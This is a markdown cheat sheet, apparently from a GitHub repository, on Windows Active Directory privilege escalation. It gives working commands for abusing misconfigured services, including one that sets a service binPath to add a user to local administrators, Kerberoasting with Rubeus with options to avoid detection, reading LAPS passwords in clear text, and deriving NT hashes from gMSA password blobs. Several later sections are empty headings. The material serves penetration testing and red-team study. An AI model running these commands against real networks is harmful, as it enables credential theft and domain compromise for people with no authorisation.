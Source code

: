 # Privilege Escalation

- [Silver Ticket](#silver-ticket)

## Service running 

### Enumeration

Display all service running (powerhsell)
```
    Get-wmiObject -Class win32_servce | select pathname
```

PowerUp

Get services with unquoted paths and a space in their name
```
    Get-ServiceUnquoted -Verbose
```

Get services where the current user can write to its binary path or change arguments to the binary
```
    Get-ModifiableServiceFile -Verbose
```

Get the services whose configuration current user can modify
```
    Get-ModifiableService -Verbose
```

### Exploitation

Using PowerUp
```
    Invoke-ServiceAbuse -Name <service> -Username <domain>\<username> -Verbose
```

Using AccessChk
```
    accesschk64.exe -uwcqv '<user>' *
    sc.exe config <service> binPath= "net localgroup administrators <domain>\<username> /add"
    sc.exe stop <service>
    sc.exe start <service>
```

## Kerberos

### Enumeration

Find user accounts used as Service accounts using AD-Module
```
    Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

Find user accounts used as Service accounts using Powerview
```
    Get-DomainUser –SPN
```

Use Rubeus to list Kerberoast stats
```
    Rubeus.exe kerberoast /stats
```

To avoid detections based on Encryption Downgrade
```
    Rubeus.exe kerberoast /stats /rc4opsec
```

### Exploitation

Use Rubeus to request a TGS
```
    Rubeus.exe kerberoast /user:<serviceaccount> /simple
    Rubeus.exe kerberoast /user:<serviceaccount> /simple /rc4opsec
```

Kerberoast all possible accounts
```
    Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```

## LAPS

### Enumeration

To find users who can read the passwords in clear text machines in OUs using powerview
```
    Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName$_.SecurityIdentifier);$_}
```

To enumerate OUs where LAPS is in use along with users who can read the passwords in clear text using AD-Module
```
    See Get-LapsPermissions.ps1
```

To enumerate OUs where LAPS is in use along with users who can read the passwords in clear text using LAPS module
```
    Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1
    Find-AdmPwdExtendedRights -Identity OUDistinguishedName
```

### Exploitation

Using powerview 
```
    Get-DomainObject -Identity <target> | select -ExpandProperty ms-mcs-admpwd
```

Using Active Directory module :
```
	Get-ADComputer -Identity <targetmachine> -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
```

Using LAPS module :
```
	Get-AdmPwdPassword -ComputerName <targetmachine>
```

## gMSA

### Enumeration

Using ADModule :
```
	Get-ADServiceAccount -Filter *
```
	
Using PowerView :
```
	Get-DomainObject -LDAPFilter '(objectClass=msDS-GroupManagedServiceAccount)'
```	
Read it using ADModule:
```
	Get-ADServiceAccount -Identity <user> -Properties * | select PrincipalsAllowedToRetrieveManagedPassword	
```

Enumerate the Principals that can read the password blob:
```
	Get-ADServiceAccount -Identity <user> -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
```

### Exploitation

Use ADModule to read and DSInternals to compute NTLM hash
```
    $Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
    . .\DSInternals.psd1
    $decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
    ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```
## Deleguation

### Unconstrained Delegation

#### Enumeration 

Using Powerview
```
Get-DomainComputer -UnConstrained
```

ActiveDirectory module
```
	Get-ADComputer -Filter {TrustedForDelegation -eq $True}
	Get-ADUser -Filter {TrustedForDelegation -eq $True}
```



### Constrained Delegation

### Resource-based Constrained Delegation

### Constrained Delegation - Kerberos Only

### Constrained Delegation with Protocol Transition

## DLL Hijacking


## Group Membership